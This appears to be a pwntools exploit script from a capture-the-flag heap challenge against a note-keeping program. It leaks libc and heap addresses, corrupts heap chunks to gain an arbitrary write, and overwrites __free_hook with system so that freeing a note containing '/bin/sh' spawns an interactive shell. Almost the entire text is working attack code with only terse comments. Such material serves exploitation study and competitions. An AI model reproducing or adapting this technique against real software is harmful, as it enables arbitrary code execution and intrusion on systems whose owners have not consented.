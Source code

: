 ```python
free_hook_eff = libc_base_eff + libc.symbols['__free_hook']
log.info("libc leak:      {}".format(hex(libc_leak)))
log.info("libc base:      {}".format(hex(libc_base_eff)))
log.info("system addr:    {}".format(hex(system_eff)))
log.info("free_hook addr: {}".format(hex(free_hook_eff)))
## clean state - heap is fine and uncorrupted here, no free chunks are present

## HEAP LEAK
new_note("aaa\n",200,"/bin/sh\x00"+"A"*100+"\n")
new_note("ccc\n",240,"C"*240) ## I had to tune this value in order to make the next note_struct in the heap 
new_note("ddd\n",200,"D"*200) ## to start at something like 0x????00 and continue to exploit the same 
new_note("eee\n",200,"E"*200) ## vulnerability
new_note("fff\n",200,"F"*200)
delete_note("ddd\n")
edit_note("eee\n","Y"*200)
delete_note("S\n")
heap_leak = view_note("\n")[1]
heap_leak = u64(heap_leak.ljust(8,'\x00'))
log.info("heap leak:      {}".format(hex(heap_leak)))
new_note("ddd\n",200,"D"*200)
new_note("eee\n",200,"E"*200)
heap_top = heap_leak + 0x2b0
## clean state - heap is fine and uncorrupted here, no free chunks are present

## ARBITRARY WRITE
new_note("mmm\n",200,"M"*200)
new_note("nnn\n",200,"N"*200)
new_note("ooo\n",200,"O"*200)
new_note("ppp\n",200,"P"*200)
m_chunk = heap_leak + 0x2d0
n_chunk = m_chunk + 0xf0
o_chunk = n_chunk + 0xf0
p_chunk = o_chunk + 0xf0
edit_note("ooo\n","O"*200)
delete_note("S\n")
delete_note("mmm\n")
edit = p64(libc_leak) + p64(n_chunk + 0x20)
edit += "O"*(200-len(edit))
edit_note("\n",edit)
edit = "N"*16 + p64(0x00) + p64(0x111) 
edit += p64(o_chunk) + p64(m_chunk)
edit += "N"*(200-len(edit))
edit_note("nnn\n",edit)
edit = "Q"*0xb0 + p64(0x00) + p64(0x10) + p64(free_hook_eff) + "\n"
new_note("qqq\n",256,edit)
edit_note("\n",p64(system_eff)+"\n")
delete_note("aaa\n")


r.interactive()
```
